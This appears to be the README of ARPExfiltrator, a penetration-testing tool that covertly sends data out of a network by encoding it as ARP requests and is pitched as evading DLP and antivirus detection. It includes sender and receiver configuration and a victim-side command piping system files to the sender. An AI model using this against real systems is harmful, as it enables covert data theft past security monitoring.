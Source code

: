 # ARPExfiltrator
![centos_shields](https://img.shields.io/badge/centos7-tested-blue.svg?style=popout-square&logo=red%20hat&logoColor=red) ![debian_shields](https://img.shields.io/badge/debian10-tested-blue.svg?style=popout-square&logo=debian&logoColor=red)

![python_shields](https://img.shields.io/badge/python-3.7-blue.svg?style=popout-square) ![pep8_shields](https://img.shields.io/badge/PEP%208-compliant-brightgreen.svg?style=popout-square) ![build_pass](https://img.shields.io/travis/rust-lang/rust.svg?style=popout-square)

## What is

Based on [Cloakify](https://github.com/TryCatchHCF/Cloakify)(presented during the ```DefCon24```), allows the data transfer through the ARP protocol in local networks. Using ARPExfiltrator is possible to evade DLP/MLS Devices and AV Detection systems. To compose, send and receive ARP requests the ```root``` permission is required.

## When use it

There are a lot of tools used to exfiltrate data that use various protocol to hide the data transition, like DNSExfiltration. In my experience, I try to exfiltrate data from a server during an on-site penetration testing using the DNS protocol, but after 1 minute of download I received a phone call from the IT department: ```What do you do on the server? Why it sends a lot of DNS resolution request to inexistent domains?```

## Dependency
- tcpdump

## How it works

The project is composed with two parts: the ```sender``` that runs on the victim machine, and the ```receiver``` that runs on the attacker machine.
The ```sender``` encode the string buffer using the base64 alghorithm and sends each letter of the encoded string as network IPv4 address. The ```receiver``` match each letter with a shared list of IPv4 address and decode the received base64 encoded string.

## Usage Example

### Attacker side

Configure the BPF(Berkeley packet filter) and network interface costants to receive only the ARP request that come from the victim machine. Below a configuration example:

```
__VICTIM_IPV4_ADDRESS__ = "192.168.56.113"
__NETWORK_INTERFACE__ = "vboxnet0"
```

Starts the receiver with ```./receiver.py```

### Victim side
Configure the ```__ARP_PROTO_SOURCE_ADDRESS__``` with the IPv4 address and ```__SOCKET_BIND_INTERFACE__``` with the name of interface where the IP address is binded. Below a configuration example:

```
__ETH_PROTO_TYPE__ = 0x0806
__ARP_HARDWARE_TYPE__ = 0x01 # Ethernet Type
__ARP_PROTOCOL_TYPE__ = 0x0800 # TCP TYPE
__ARP_HARDWARE_ADDRESS_SIZE__ = 0x06 # MAC Address Size
__ARP_PROTOCOL_ADDRESS_SIZE__ = 0x04 # Ipv4 Address Size
__ARP_OP_CODE__ = 0x01 # ARP Request Operation Code
__ARP_HW_SOURCE_ADDRESS__ = '08:00:27:10:f8:e7'
__ARP_PROTO_SOURCE_ADDRESS__ = '192.168.56.113'
__ARP_HW_DST_ADDRESS__ = '00:00:00:00:00:00'
__SOCKET_PROTO_TYPE__ = 0x0003 # Gateway-Gateway Protocol. See /etc/protocol to more details.
__SOCKET_BIND_INTERFACE__ = 'enp0s8'
```

Send a packet with ```cat /etc/os-release | ./sender.py``` for example

Below an example of data exfiltration using ARPExfiltrator

![screen1](./imgs/screen1.png)
![screen2](./imgs/screen2.png)

## Tips

Sometimes you need to use your custom IPv4 list. Inside the ```libs/ipAddresses``` you can find the list that I used in my last penetration testing experience. To genenerate a custom dictionary of IPv4 you can use a tool named ```prips```.
Example:
```
$: prips 192.168.5.1 192.168.5.254
192.168.5.1
192.168.5.2
192.168.5.3
192.168.5.4
192.168.5.5
192.168.5.6
192.168.5.7
192.168.5.8
192.168.5.9
192.168.5.10
192.168.5.11
192.168.5.12
192.168.5.13
192.168.5.14
192.168.5.15
192.168.5.16
192.168.5.17
192.168.5.18
192.168.5.19
192.168.5.20
192.168.5.21
192.168.5.22
192.168.5.23
....
192.168.5.254
```
## Evolutions:

- C&C function
- Increase performance using the other ARP Header fields









